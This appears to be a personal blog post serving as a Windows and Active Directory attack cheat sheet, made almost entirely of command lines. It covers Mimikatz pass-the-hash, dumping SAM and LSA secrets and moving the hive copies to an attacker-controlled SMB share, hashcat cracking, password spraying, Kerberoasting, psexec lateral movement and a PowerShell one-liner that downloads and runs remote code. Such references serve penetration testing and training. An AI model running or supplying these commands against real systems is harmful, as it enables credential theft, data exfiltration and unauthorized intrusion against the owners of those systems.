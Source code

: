 ```yaml
---
layout: post
title: Commands & Hacks - Windows
toc: true
subtitle: Windows
comments: false
---
```


<b>Windows Authentication Tricks:</b> <br>

RDP via xfreerdp:

```
xfreerdp +clipboard /u:<user> /v:<target-IP> /cert-ignore
```

WinRM Auth via Evil-winrm:
```
evil-winrm -i <target-IP> -u <user> -p <pass>
```

Mimikatz Options:
```
/user
/rc4 - hash
/NTLM - hash
/domain - domain that the user to impersonate with belongs to i.e. localhost, DC01
/run - program running in user's context
```

Pass the Hash via Mimikatz cmd:
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /domain DC01 /rc4:<hash> /domain:<domainname> /run:cmd.exe"

pushd \\DC01\<user>
 ```

<b>Windows Hashes & Passwords</b> <br>

Non-domain joined windows system, grab the 3 SAM registry hives.
```
hklm\sam - Local User Account Passwords Hashes
hklm\system - System Bootkey to decrypt SAM database
hklm\security - Domain Accounts' cached credentials
```

SAM backup command:
```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Create Share server with smbserver.py to dump SAM:
```
sudo python3 /usr/bin/tools/impacket_smbserver.py -smb2support CompData /home/kali/Documents/
```
Move hive copies to Share server:
```
move sam.save \\<attacker_ip>\CompData
move security.save \\<attacker_ip>\CompData
move system.save \\<attacker_ip>\CompData
```
Dump Command:
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Cracking NT Hashes via hashcat:
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
Cracking NTLMv2 Hash with hashcat:
```
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

Remote LSA Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --lsa
```
Remote SAM Secrets Dumping via crackmapexec:
```
crackmapexec smb <target_ip> --local-auth -u <user> -p <pass> --sam
```
Enumerate Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Base64 encoding in Powershell for File Transfer:
```
[Convert]::ToBase64String((Get-Content -path "C:\..\file.txt" -Encoding byte)) | clip
```
Using DomainPasswordSpray.ps1:
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
Check Defender status:
```
Get-MpComputerStatus
```
Discover Modules:
```
Get-Module
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-ADTrust -Filter *
Get-ADGroup -Filter * | select name
Get-ADGroup -Identity "<name>"
Get-ADGroupMember -Identity "<name>"
```

Post Exploit:
```
whoami /priv
```
If SeRestorePrivilege listed, run EnableSeRestorePrivilege.ps1 to have write access to C:\Windows\System32.

If SeImpersonatePrivilege, use juicy potato

Connect to win-host with psexec.py leveraging local admin user credentials:
```
psexec.py <domain.local>/<user>:'<password>'@<host_ip>
```

Net Commands:

```
net group "Domain Admins" /domain
net group "Domain Controllers" /domain
net localgroup
net localgroup Administrators
net share
net view
```
Powershell Download from web/local web server:
```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

Powershell history:
```
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

List all SPN Accounts with GetUserSPNs.py:
```
GetUserSPNS.py -dc-ip <dc> <domainname>.LOCAL/<username>
```
Get TGS Ticket with GetUserSPNs.py:
```
GetUserSPNs.py -dc-ip <dc> <domainname.LOCAL/<username> -request-user <user> -outputfile <filename>
```

